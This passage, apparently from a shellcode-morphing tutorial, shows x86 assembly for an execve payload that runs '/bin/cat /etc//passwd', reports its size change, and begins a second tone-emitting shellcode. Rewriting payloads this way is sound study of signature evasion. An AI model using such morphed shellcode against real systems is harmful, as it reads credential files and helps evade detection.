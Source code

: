 **_morphed shellcode_**

```
xor ebx, ebx    ; Use EBX instead of EAX
mul ebx         ; This clears EAX and EDX for us

push eax        ; Push nulls with EAX
push 0x7461632f
push 0x6e69622f
mov ebx,esp

push eax        ; Push nulls with EAX

push 0x64777373
push 0x61702f2f
push 0x6374652f
mov ecx,esp

push eax        ; Push nulls with EAX
push ecx
push ebx
mov ecx,esp
mov al,0xb      ; Rearrange this command
int 0x80
```

#### Results

The original shellcode was 43 bytes, and our morphed version was 44 bytes. That results in a **2.3%** increase in size, which is within our boundary! On to the next piece of code.

## Shellcode \#2

This next piece of [shellcode](http://shell-storm.org/shellcode/files/shellcode-60.php) we'll modify is just a fun piece of code designed to emit a tone, and is originally 45 bytes.

**_original shellcode_**

```
; int fd = open("/dev/tty10", O_RDONLY);
push byte 5
pop eax
cdq
push edx
push 0x30317974
push 0x742f2f2f
push 0x7665642f
mov ebx, esp
mov ecx, edx
int 80h

; ioctl(fd, KDMKTONE (19248), 66729180);
mov ebx, eax
push byte 54
pop eax
mov ecx, 4294948047
not ecx
mov edx, 66729180
int 80h
```
